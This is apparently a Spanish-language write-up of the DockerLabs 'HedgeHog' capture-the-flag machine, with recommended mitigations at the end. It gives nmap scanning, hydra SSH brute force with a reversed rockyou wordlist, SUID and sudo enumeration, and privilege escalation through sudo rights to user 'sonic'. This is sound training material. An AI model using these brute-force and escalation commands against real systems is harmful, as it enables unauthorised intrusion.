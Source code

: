 
# HedgeHog

## Resumen breve: 

HedgeHog (DockerLabs) — Máquina Linux orientada a práctica de pentesting básica: escaneo de puertos, enumeración web y SSH, fuerza bruta con diccionarios adaptados, post-explotación y escalada de privilegios mediante uso de sudo y usuarios intermedios. En este laboratorio se detectaron puertos 22 (OpenSSH) y 80 (Apache), se identificó un usuario web/SSH (tails), se adaptó la wordlist rockyou para acelerar el ataque, se obtuvo acceso por SSH y se escaló a root aprovechando privilegios sudo sobre otro usuario (sonic).

Link a máquina en DockerLabs -> [HedgeHog](https://dockerlabs.es/)<br>
Link a WriteUp completo -> [HedgeHog - WriteUp](https://github.com/DanielDominguezBender/dockerlabs.es/blob/main/HedgeHog/HedgeHog.pdf)

## Pasos clave:
1. Desplegar la máquina Docker (script autodeploy.sh) y arrancar la instancia.
2. Escaneo completo con Nmap → puertos 22 y 80 abiertos (OpenSSH y Apache).
3. Enumeración web: página simple con la palabra 'tails' → posible nombre de usuario.
4. Preparar diccionario: limpiar líneas en blanco/espacios y usar tac para invertir rockyou.
5. Fuerza bruta con hydra → acceso SSH con 'tails'.
6. Post-explotación: enumeración local y revisar 'sudo -l'.
7. Escalada: usar 'sudo -u sonic /bin/bash' para obtener shell como sonic y desde ahí 'sudo su' a root.

## Comandos destacados (ejemplos):

**Preparación / despliegue:**
```python
mkdir hedgehog && cd hedgehog
mv ~/Downloads/hedgehog.zip .
sudo unzip hedgehog.zip
sudo chmod +x autodeploy.sh
sudo ./autodeploy hedgehog.tar
```

**Escaneo:**
```python
nmap -sC -sV --min-rate 5000 -A -p- -oN escaneo_hedgehog.txt
Preparar rockyou (limpiar espacios y líneas vacías, invertir):
sed -i 's/[[:space:]]//g' /usr/share/wordlists/rockyou.txt > rockyou_alternativo.txt
tac rockyou_alternativo.txt > /usr/share/wordlists/rockyou_upsidedown.txt
```

**Fuerza bruta SSH con hydra (ejemplo):**
```python
hydra -I -l tails -P /usr/share/wordlists/rockyou_upsidedown.txt ssh://
Post-explotación: enumeración rápida:
uname -a; id; cat /etc/issue; find / -perm -4000 2>/dev/null; sudo -l
```

**Escalada:**
```python
sudo -u sonic /bin/bash
sudo su
```

## Hallazgos y artefactos importantes:

- Puertos abiertos: 22 (SSH) y 80 (HTTP).
- Usuario identificado: tails (pista encontrada en la web).
- Técnica útil: preprocesar rockyou (quitar espacios/line breaks y usar tac) para acelerar la fuerza bruta.
- Vectores de post-explotación: buscar SUIDs y revisar 'sudo -l'; aprovechamiento de permisos sudo de
'sonic' para escalar a root.


## Mitigaciones recomendadas:
- Evitar usuarios con permisos sudo innecesarios; restringir comandos permitidos con sudoers.
- Limitar intentos de fuerza bruta: usar Fail2Ban, rate limiting en SSH y/o autenticación por clave.
- Revisar y auditar archivos SUID; eliminar SUIDs no imprescindibles.
